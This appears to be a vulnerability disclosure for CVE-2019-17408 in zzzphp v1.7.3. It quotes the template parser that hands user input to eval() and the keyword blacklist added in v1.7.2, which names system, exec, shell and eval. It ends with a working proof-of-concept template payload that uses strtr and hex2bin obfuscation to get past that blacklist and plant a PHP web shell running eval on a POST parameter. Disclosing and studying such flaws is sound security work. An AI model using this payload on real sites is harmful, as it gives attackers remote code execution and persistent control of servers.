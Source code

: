 # General
    Vulnerability Name: zzzphp v1.7.3 code execution (latest version)
    Product Homepage: http://www.zzzcms.com
    Software Link: http://115.29.55.18/zzzphp.zip
    Version: v1.7.3
    CVE: CVE-2019-17408

# Vulnerability Overview
Affected code is located at `inc/zzz_template.php:2335`, function `parserIfLabel`.
```php
function parserIfLabel( $zcontent ) {
	$pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
	if ( preg_match_all( $pattern, $zcontent, $matches ) ) {
		$count = count( $matches[ 0 ] );
		for ( $i = 0; $i < $count; $i++ ) {
			$flag = '';
			$out_html = '';
			$ifstr = $matches[ 1 ][ $i ];
			$ifstr=danger_key($ifstr);
			$ifstr = str_replace( '=', '==', $ifstr );	
			$ifstr = str_replace( '<>', '!=', $ifstr );
			$ifstr = str_replace( 'or', '||', $ifstr );
			$ifstr = str_replace( 'and', '&&', $ifstr );
			$ifstr = str_replace( 'mod', '%', $ifstr );						
			@eval( 'if(' . $ifstr . '){$flag="if";}else{$flag="else";}' );
			if ( preg_match( '/([\s\S]*)?\{else\}([\s\S]*)?/', $matches[ 2 ][ $i ], $matches2 ) ) { // 判断是否存在else			
				switch ( $flag ) {
					case 'if': // 条件为真
						if ( isset( $matches2[ 1 ] ) ) {
							$out_html .= $matches2[ 1 ];
						}
						break;
					case 'else': // 条件为假
						if ( isset( $matches2[ 2 ] ) ) {
							$out_html .= $matches2[ 2 ];
						}
						break;
				}
			} elseif ( $flag == 'if' ) {
				$out_html .= $matches[ 2 ][ $i ];
			}
			// 无限极嵌套解析
			$pattern2 = '/\{if([0-9]):/';
			if ( preg_match( $pattern2, $out_html, $matches3 ) ) {
				$out_html = str_replace( '{if' . $matches3[ 1 ], '{if', $out_html );
				$out_html = str_replace( '{else' . $matches3[ 1 ] . '}', '{else}', $out_html );
				$out_html = str_replace( '{end if' . $matches3[ 1 ] . '}', '{end if}', $out_html );
				$out_html = $this->parserIfLabel( $out_html );
			}
			// 执行替换
			$zcontent = str_replace( $matches[ 0 ][ $i ], $out_html, $zcontent );
		}
	}
	return $zcontent;
}
```
This function is mainly to parse the if statement in the template file. Besides execute blacklist substitution for `$ifstr`, which is added in v1.7.2. The replacement function is as follows:

```php
function danger_key($s) {
	$danger=array('php','preg','server','chr','decode','html','md5','post','get','file','dir','cookie','session','sql','del','encrypt','$','system','exec','shell','open','ini_','chroot','eval','passthru','include','require','assert','union','_','?');
	$s = str_ireplace($danger,"*",$s);
	$key=array('php','preg','decode','post','get','cookie','session','$','exec','eval','replace');
   foreach ($key as $val){
	   if(strpos($s,$val) !==false){
		error('很抱歉，您模板中包含危险字符,【'.$val.'】,Sorry your template contains dangerous characters');
		}
   }
	return $s;
}
```

## POC: (Bypass the patch from v1.7.2)

```php
{if:1=1);file_put_contents(strtr("1.p*p", "*", "h"),strtr('<?*h* ', "*", "p").strtr('ev*l(', "*", "a").hex2bin('24').strtr('_P*ST[1]);', "*", "O"));//} {end if}
```

![](https://ae01.alicdn.com/kf/H8d8d07e843e5475285a61cb1c9f741f6P.jpg)

![](https://ae01.alicdn.com/kf/H165b250539834c9790a826b7fef9ab4d0.jpg)

![](https://ae01.alicdn.com/kf/H56cdd2dbe2f04d1691fba2caab9341dbt.jpg)

![](https://ae01.alicdn.com/kf/He1a5504ebce54f40b1370844211a6bfd7.jpg)
